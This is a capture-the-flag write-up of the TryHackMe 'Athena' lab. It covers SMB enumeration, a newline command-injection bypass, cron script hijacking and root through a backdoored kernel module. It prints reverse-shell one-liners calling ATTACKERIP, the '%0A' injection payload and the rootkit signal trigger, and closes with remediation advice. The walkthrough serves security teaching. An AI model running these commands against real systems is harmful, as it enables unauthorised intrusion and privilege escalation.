








# TryHackMe - Athena
[](https://tryhackme.com/room/4th3n4?vccr=1)


---

## Table of Contents

1. [Overview](#overview)
2. [Attack Path Overview](#attack-path-overview)
3. [Reconnaissance](#reconnaissance)
4. [SMB Enumeration](#smb-enumeration)
5. [Initial Access](#initial-access)
6. [Foothold — Reverse Shell as www-data](#foothold--reverse-shell-as-www-data)
7. [Privilege Escalation — athena](#privilege-escalation--athena)
8. [Privilege Escalation — root](#privilege-escalation--root)
9. [Findings Summary](#findings-summary)
10. [Remediation Recommendations](#remediation-recommendations)
11. [Tools Used](#tools-used)
12. [Skills Demonstrated](#skills-demonstrated)
13. [Lessons Learned](#lessons-learned)
14. [References](#references)
15. [Disclaimer](#disclaimer)

---

## Overview

This write-up documents my methodology for completing the **Athena** room on TryHackMe, a medium-difficulty Linux machine.

The attack began with network enumeration, which surfaced an SMB share permitting anonymous access due to unenforced message signing. A file left on that share disclosed a hidden web endpoint hosting an internal ping utility. The utility's input filter blocked common shell metacharacters but not newline injection, allowing OS command injection and an initial foothold as `www-data`.

From there, a cron-executed backup script owned by the user `athena` but writable by the web user provided a path to escalate to `athena` and capture the user flag. Finally, a `sudo`-permitted vulnerable kernel module (`venom.ko`) was identified, and public research into its author's known "backdoor" behavior revealed the exact signal required to trigger a hidden `give_root()` function, completing the box.

---

## Attack Path Overview

```mermaid
flowchart LR
    A[Nmap Scan] --> B[SMB Signing Not Required]
    B --> C[Anonymous SMB Access]
    C --> D[msg_for_administrator.txt]
    D --> E["myrouterpanel Endpoint"]
    E --> F[Filter-Bypass<br/>Command Injection]
    F --> G[Shell as www-data]
    G --> H[Writable backup.sh<br/>owned by athena]
    H --> I[Cron Execution]
    I --> J[Shell as athena]
    J --> K[Vulnerable venom.ko<br/>via sudo]
    K --> L[Signal-Triggered give_root]
    L --> M[Root]
```



| Stage | Technique | Outcome |
|---|---|---|
| 1 | Nmap port and service scan | Identified SSH, HTTP, and SMB services |
| 2 | SMB signing check | Confirmed anonymous/null session access |
| 3 | Anonymous SMB share access | Retrieved a note disclosing a hidden endpoint |
| 4 | Web application discovery | Located an internal IP ping utility |
| 5 | Newline-based filter bypass | OS command injection in the `ip` parameter |
| 6 | Reverse shell | Foothold as `www-data` |
| 7 | Ownership/cron enumeration | Writable script executed periodically as `athena` |
| 8 | Script hijacking | Shell as `athena`, user flag |
| 9 | Sudo enumeration | NOPASSWD `insmod` on a custom kernel module |
| 10 | Kernel module research + signal delivery | Root shell, root flag |

---

## Reconnaissance

### Port Scanning

A full TCP port scan was run first to establish the complete attack surface:

```bash
sudo nmap -p- 10.82.162.76
```

**Results:**

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Four open ports were identified: SSH, HTTP, and two SMB-related ports (NetBIOS and Microsoft-DS), which stood out as a likely early attack vector.

### Service and Script Enumeration

A follow-up scan targeting the discovered ports was run with version detection and default NSE scripts:

```bash
nmap 10.82.162.76 -p 22,80,139,445 -sV -sC
```

**Key results:**

```
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4

Host script results:
|_nbstat: NetBIOS name: ROUTERPANEL
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
```



The critical finding here was that **SMB message signing was enabled but not required**. In practice, this is frequently associated with SMB servers that also permit anonymous (null) sessions, making it worth testing immediately.

---

## SMB Enumeration

### Anonymous Session Access

A null-session listing confirmed that anonymous access was indeed permitted:

```bash
smbclient -L //10.82.162.76 -N
```

```
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk
        IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
```

### Retrieving Share Contents

The `public` share was accessed without credentials:

```bash
smbclient //10.82.162.76/public -N
```

Listing its contents revealed a single file of interest:

```
msg_for_administrator.txt
```



The file was downloaded using `get` and reviewed:

```text
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

This note — clearly not intended for public access — disclosed a hidden web application endpoint.

---

## Initial Access

### Discovering the Ping Utility

Navigating to the disclosed path revealed an internal tool for pinging IP addresses:

```
http://TARGET_IP/myrouterpanel
```


Submitting an IP address returned a `.php` page containing the ping output.



The returned content matched what would be expected from a raw shell command, suggesting the input was being passed directly to a system call.

### Bypassing the Input Filter

The application filtered common command-separator characters (`;`, `&`, `|`), blocking straightforward injection attempts. However, testing a URL-encoded newline (`%0A`) in place of a separator proved effective:

```
ip=%0Awhoami
```

Intercepting and modifying the request in **Burp Suite** confirmed that the injected command executed successfully, validating an **OS command injection** vulnerability in the `ip` parameter that the character blacklist failed to account for.


---

## Foothold — Reverse Shell as www-data

The confirmed injection was used to establish a reverse shell:

```bash
nc -c sh ATTACKERIP 4444
```

With a listener prepared beforehand:

```bash
nc -lvnp 4444
```



This returned an interactive shell running as the web server user, `www-data`.

---

## Privilege Escalation — athena

### Locating Owned Files

To identify a path toward the target user `athena`, all files and directories owned by that account were enumerated:

```bash
find / -user 'athena' 2>/dev/null
```

This returned two locations:

```
/home/athena
/usr/share/backup
```

Direct access to `/home/athena` was not permitted, but `/usr/share/backup` was accessible and contained a script owned by `athena`:

```bash
#!/bin/bash
backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"
cp -r /home/athena/notes/* "$backup_dir_zip"
zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
cp -r /home/athena/* '/usr/share/backup'
```

Critically, while the script was owned by `athena`, its containing directory permissions allowed the `www-data` user to modify it.

### Confirming Scheduled Execution

**pspy64** was used to confirm that `backup.sh` was being executed automatically and on a short interval — consistent with a cron job running as `athena`:

```
2026/08/03 12:47:55 CMD: UID=1001 PID=1212 | /bin/bash /usr/share/backup/backup.sh
2026/08/03 12:48:55 CMD: UID=1001 PID=1230 | /bin/bash /usr/share/backup/backup.sh
```

### Hijacking the Script

Since the script was writable, a reverse shell one-liner was appended to it:

```bash
echo "/bin/sh -i >& /dev/tcp/ATTACKERIP/8888 0>&1" >> /usr/share/backup/backup.sh
```

Within the next scheduled execution window, the payload ran in the context of `athena`, returning a shell and the corresponding **user flag**.



---

## Privilege Escalation — root

### Sudo Enumeration

As `athena`, available `sudo` permissions were checked:

```bash
sudo -l
```

```
User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

This permitted loading a custom kernel module, `venom.ko`, as root without a password — a strong indicator of an intentionally vulnerable module.

### Researching the Module

Running `modinfo` against the module identified its author:

```bash
modinfo venom.ko
```

```
author: m0nad
```

A search for this author's public work surfaced a GitHub repository for a known Linux Kernel Module (LKM) rootkit, documented to grant root privileges to any process that sends it a specific signal.



### Identifying the Correct Trigger

Public documentation referenced sending signal `64` to a target PID to trigger the privilege escalation behavior. This did not work as described:



To confirm the actual expected value, the module binary was disassembled and reviewed using **Ghidra**. This revealed a hidden `hacked_kill` function hooked into the kernel's signal handling path:



Analysis showed that the function checked for signal `0x39` (decimal `57`) rather than `64` before invoking its embedded `give_root()` routine.

### Exploitation

With the correct signal identified, it was sent to the current shell's PID:

```bash
kill -57 $$
```

This triggered the module's hidden root-granting behavior, escalating the shell to `root` and completing the box.


---

## Findings Summary

| # | Finding | Severity | Impact |
|---|---|---|---|
| 1 | SMB signing not enforced / anonymous access | Medium | Unauthenticated access to shared files |
| 2 | Sensitive information disclosed via SMB share | Medium | Disclosure of a hidden internal endpoint |
| 3 | Incomplete input filtering (blacklist bypass) | Critical | OS command injection, initial RCE |
| 4 | Writable script owned by a privileged user | High | Privilege escalation via cron job hijacking |
| 5 | Sudo-permitted, backdoored kernel module | Critical | Full root compromise |

---

## Remediation Recommendations

- Enforce SMB message signing and disable anonymous/null session access unless explicitly required.
- Avoid storing sensitive operational notes or internal URLs on shares accessible without authentication.
- Replace blacklist-based input filtering with strict allow-listing and proper input validation/escaping; never rely on blocking a fixed set of characters (`;`, `&`, `|`) as a complete defense against command injection.
- Ensure scripts executed by privileged scheduled tasks are owned by and writable only by the account that owns the task — never by a lower-privileged service account such as `www-data`.
- Audit `sudo` permissions regularly, especially for commands like `insmod`/`modprobe` that load arbitrary kernel code as root; avoid granting NOPASSWD access to unreviewed or third-party kernel modules.
- Do not load unvetted or unofficial kernel modules — malicious or backdoored modules can grant complete system compromise.

---

## Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Port and service enumeration |
| smbclient | SMB share enumeration and file retrieval |
| Burp Suite | HTTP interception and payload testing |
| Netcat | Reverse shell handling |
| pspy64 | Unprivileged process/cron monitoring |
| Ghidra | Kernel module disassembly and analysis |

---

## Skills Demonstrated

- Network service enumeration and SMB security assessment
- Anonymous SMB share access and file exfiltration
- Web application discovery via disclosed information
- Command injection filter bypass techniques
- Linux privilege escalation via cron/script hijacking
- Kernel module reverse engineering with Ghidra
- Exploitation of intentionally backdoored kernel modules

---

## Lessons Learned

- Weak SMB configuration (signing not required, anonymous access allowed) remains a reliable and high-value early enumeration target.
- Information disclosed in "internal" notes and files often reveals hidden functionality that isn't otherwise discoverable through standard web enumeration.
- Blacklist-based input filters are inherently incomplete; newline injection (`%0A`) is a simple but effective technique for bypassing filters that only block common shell separators.
- File and directory ownership should always be checked independently of the executing user — a script owned by a privileged account is only as secure as the permissions on the directory containing it.
- When public documentation for an exploit or vulnerable module doesn't work exactly as described, reverse engineering the actual binary is often necessary to find the precise trigger condition.

---

## References

- [TryHackMe — Athena](https://tryhackme.com/room/4th3n4)
- [OWASP — Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [m0nad/Diamorphin — LKM Rootkit (GitHub)](https://github.com/m0nad/Diamorphin)

---

## Disclaimer

This write-up documents my personal approach to completing the **Athena** room on TryHackMe. All testing was performed exclusively within the authorized TryHackMe lab environment for educational and skill-development purposes.